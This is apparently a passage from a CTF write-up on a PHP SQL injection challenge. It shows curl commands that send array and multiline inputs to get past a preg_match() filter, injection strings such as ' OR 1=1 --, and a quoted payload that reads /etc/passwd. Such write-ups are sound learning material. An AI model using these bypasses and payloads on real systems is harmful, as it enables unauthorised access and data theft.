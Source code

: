 **Note :** `die()` function is a function that helps returning errors to end users :
 - Using die() can be a good option when working with HTTP Endpoints.
 - If your PHP Script is one, you can use die() to send back an error as plain text or JSON for example.
 - die(json_encode(array('error' => 'some error')));

<br>
<br>
<br>

As the `preg_match()` may cause us some problems, let's try to baypass it  :

1. Bypassing `preg_match()` using arrays :


> preg_match function compare regular espression and input of user.
>
> but if input value is array it fail to compare.
>
> As a result following script continuously execute. Attacker can bypass preg_macth function and take place side effect of various case.

So for the `user` input, let's try to send an array instead : 

```
curl 'http://sqli-2.web-server.challs.ctf.shellmates.club/' -X POST --data "user[]=abc'def&pass=admin"
```

```
curl 'http://sqli-2.web-server.challs.ctf.shellmates.club/' -X POST --data "user[]='def&pass=admin" 
```

```
curl 'http://sqli-2.web-server.challs.ctf.shellmates.club/' -X POST --data "user[]=' OR 1=1 --&pass=admin"
```

Those commands actually baypasses the `preg_match()`, but unfortunatly they causes SQL errors, that's why we can't get any output from them.

<br>
<br>

2. Bypassing `preg_match()` with multilines input :

One of the most common ways to bypass pregmatch is to use **multiline inputs**, because `preg_match` only tries to match the first line.

> To bypass this check you could **send the value with new-lines urlencoded** `(%0A)` or if you can send **JSON data**, send it in **several lines**:
>
> ```
>{
>  "cmd": "cat /etc/passwd"
>}
>```
>
> See Example here : https://ramadistra.dev/fbctf-2019-rceservice
